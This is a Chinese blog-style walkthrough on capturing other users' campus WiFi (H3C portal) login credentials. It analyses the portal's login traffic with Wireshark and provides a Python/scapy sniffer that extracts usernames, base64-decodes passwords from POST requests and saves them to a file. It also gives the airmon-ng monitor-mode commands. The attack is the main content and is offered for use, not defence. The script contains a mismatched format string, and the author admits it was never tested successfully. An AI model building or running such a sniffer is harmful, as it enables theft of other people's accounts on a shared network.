







H3C校园网WIFI密码嗅探
使用Python脚本嗅探校园网WIFI账号密码

初步分析认证交互
该校校园网WIFI采用H3C认证，认证地址为内网某服务器上。url为 http://192.168.xxx.x:xxxx/portal/index_default.jsp
查看DOM
发现了几个重要的函数。base64()、checkUserName()、encrypt()
base64是将输入的文本进行一次base64编码，checkUerName就是检查用户名，encrypt是将密码再进行一次加密。
base64是将输入的文本进行一次base64编码，checkUerName就是检查用户名，encrypt是将密码再进行一次加密。

分析网络流
首先使用火狐的firebug+检查元素来分析网络流。
当我们访问登陆页面时，发送GET请求并带一个i_p_pl的cookie

尝试登陆，登陆成功跳转到 http://192.168.xxx.x:xxxx/portal/page/loginSucc.jsp**，发送了*个GET请求，除去图片和脚本，此次登陆只向/portal/loginSucc.jsp发送了GET包，除了i_p_pl，还带有hello1、hello2两个个cookie，其中hello1为登陆发送的username，hello2暂不明其含义。
在后来的测试中，发现hello2是【记住登陆】功能的参数，当hello2=false时不记住，hello2=true时记住并附带hello3、hello4、hello5参数，本来应当是可以利用这些cookie来绕过登陆直接请求认证的，不过考虑到其又要增加工作量，因此先放一边。

这就很奇怪了，在整个登陆过程全部都是GET请求而没有POST请求，没有POST请求是怎么把用户名密码传输上去认证的呢？况且之前已经在DOM中发现了base64encode()和query()函数。难道用户名和密码是在GET时Cookie中传上去的？。虽然不用想就知道GET发送cookie来登陆很扯，但还是要研究一下cookie的含义。

探究cookie含义
登陆时发送的i_p_pl
i_p_pl=JTdCJTIyZXJyb3JOdW1iZXIlMjIlM0ElMjIxJTIyJTJDJTIybmV4dFVybCUyMiUzQSUyMmh0dHAlM0ElMkYlMkYxOTIuMTY4LjE1MC4yJTNBODA4MCUyRnBvcnRhbCUyRmluZGV4X2RlZmF1bHQuanNwJTIyJTJDJTIycXVpY2tBdXRoJTIyJTNBZmFsc2UlMkMlMjJjbGllbnRMYW5ndWFnZSUyMiUzQSUyMkNoaW5lc2UlMjIlMkMlMjJhc3NpZ25JcFR5cGUlMjIlM0EwJTJDJTIyaU5vZGVQd2ROZWVkRW5jcnlwdCUyMiUzQTElMkMlMjJ3bGFubmFzaWQlMjIlM0ElMjIlMjIlMkMlMjJ3bGFuc3NpZCUyMiUzQSUyMiUyMiUyQyUyMm5hc0lwJTIyJTNBJTIyJTIyJTJDJTIyYnlvZFNlcnZlcklwJTIyJTNBJTIyMC4wLjAuMCUyMiUyQyUyMmJ5b2RTZXJ2ZXJJcHY2JTIyJTNBJTIyMDAwMCUzQTAwMDAlM0EwMDAwJTNBMDAwMCUzQTAwMDAlM0EwMDAwJTNBMDAwMCUzQTAwMDAlMjIlMkMlMjJieW9kU2VydmVySHR0cFBvcnQlMjIlM0ElMjI4MDgwJTIyJTJDJTIyaWZUcnlVc2VQb3B1cFdpbmRvdyUyMiUzQWZhbHNlJTJDJTIydWFtSW5pdEN1c3RvbSUyMiUzQSUyMjElMjIlMkMlMjJjdXN0b21DZmclMjIlM0ElMjJNUSUyMiUyQyUyMnJlZ0NvZGVUeXBlJTIyJTNBJTIyTUElMjIlN0Q
很明显这是一个base64编码过的字符串，把这个base64解码再url解码，就得到了
{“errorNumber”:”1”,”nextUrl”:” http://192.168.xxx.x:xxxx/portal/index_default.jsp**“,”quickAuth”:false,”clientLanguage”:”Chinese”,”assignIpType”:0,”iNodePwdNeedEncrypt”:1,”wlannasid”:””,”wlanssid”:””,”nasIp”:””,”byodServerIp”:”0.0.0.0”,”byodServerIpv6”:”0000:0000:0000:0000:0000:0000:0000:0000”,”byodServerHttpPort”:”8080”,”ifTryUsePopupWindow”:false,”uamInitCustom”:”1”,”customCfg”:”MQ”,”regCodeType”:”MA”}
这只是向无线路由器发送的表明自己身份的未完成的表单，没有我们要的用户名和密码。
完整认证过程
只有GET请求果然很扯，这很有可能是我们的浏览器网络流分析工具有些问题，或者该Web认证的安全性足够好，导致我们无法截取完整的请求流。
这样就只有用Wireshark来对网卡进行完全的监听，以抓取全部流量包。
设置Capture interface为 WLAN 无线网卡，开启抓取后重现登陆过程。
抓到的流量包除了访问该认证网站的http流，还包括了所有经过该无线网卡的所有协议的网络流。

设置过滤规则为http协议并且只有该认证网址ip。
发现登录一次h3c系统，要先后传参给3个页面，一个/pws？t=li，一个/afterlogin.jsp,一个/loginSucc.jsp，所以就分别看这几个网页的抓包数据。
发现其cookie都是一样的，但是只有pws这个页面是POST请求。

查看pws应用层传输的数据，发现上传了【userName】和【userPwd】参数，也就是说，只有这个页面是验证密码的。
【userName】就是登陆的用户名，【userPwd】是经过base64编码后的密码。

总结思路
我们可以抓取用户登陆时的POST请求来获取用户名和密码，也可以在用户勾选【记住密码】时获取带有用户名密码信息的cookie。
- 当抓到client ==> server的数据包时
- 如果是GET请求，检查有没有Cookie存在。
- 如果是POST请求，把用户名和密码拿出来。
- 检查是否有set-cookie头部，有的话取出来。
最后如果有cookie被嗅探到，就带着cookie把向server索要一下密码。
但是为了偷懒，这里就不嗅探cookie了，直接嗅探POST的用户名和密码就行了。最终思路如下：
当抓到client ==> server的数据包时，如果是POST请求，直接把用户名和密码拿出来。
嗅探
实验环境
- Ubuntu虚拟机
- 大功率USB无线网卡（8187等）
- python2.7
python扩展库需要
- requests
- scapy
- scapy_http
- lxml
** 代码
import requests
import scapy_http.http as http
from scapy.all import *
from lxml import etree
iface = 'wlan0'
url = "http://192.168.xxx.x:xxxx/portal/pws?t=li"
path = "/root"
def prn(pkt):
data = None
#std ==> ap
if pkt.haslayer(http.HTTPRequest):
#if post the username and password
if pkt.Method == 'POST' and 'userName' in pkt.load:
dt = {i.split("=")[0]:i.split("=")[1] for i in pkt.load.split("&")}
data = ":::".join((dt["userName"],dt["userPwd"][3:].decode("base64"))) + '\n'
print '[+]Get! Post data:%s %s %s %s'%(dt['userName'],dt['userPwd'])
if data != None:
with open(path + "schoolUserPwd.txt", "a") as txt:
txt.write(data)
def main():
try:
sniff(iface=iface, prn=prn, filter="ip host 192.168.xxx.x", store=0)
#sniff(offline=path + "school.pcap", prn=prn, filter="ip host 192.168.xxx.x")
except KeyboardInterrupt, e:
print "quitting..."
if __name__ == '__main__':
main()
说明
- requests用来向服务器请求
- scapy用来在无线网络中嗅探
- scapy_http用来对http协议更方便的解析
- lxml用来从服务器返回的html文件中，解析出来用户名和密码
- prn是sniff函数每过滤到一个符合条件的数据包时回调的函数，并将数据包本身作为参数传入
- 之所以选择Ubuntu而不是Windows是因为scapy_http在win下运行有些问题
注意
由于我们既要嗅探，同时又要向服务器请求，所以airmon-ng check kill后，无线网卡开启monitor模式，再将网卡调到信号最强的ap的信道上。之前经过kismet抓取无线网包发现该校园网WIFI是在channel 1/6/11信道上工作的。
最后再打开网络管理的服务。
执行以下命令
$sudo airmon-ng check kill
$sudo ifconfig wlan0 down
$sudo iwconfig wlan0 mode monitor
$sudo ifconfig wlan0 up
$sudo iwconfig mon0 channel 1/6/11
$sudo service network-manager start
结果
由于之前买的无线网卡是劣质品无法识别，因此暂无结果。
理论上是可以嗅探到的，等成功嗅探后再补发。
参考
参考Freebuf的 如何在开放无线网络中嗅探校园网密码**这篇文章提供的python脚本，针对该校的网络进行了一些修改。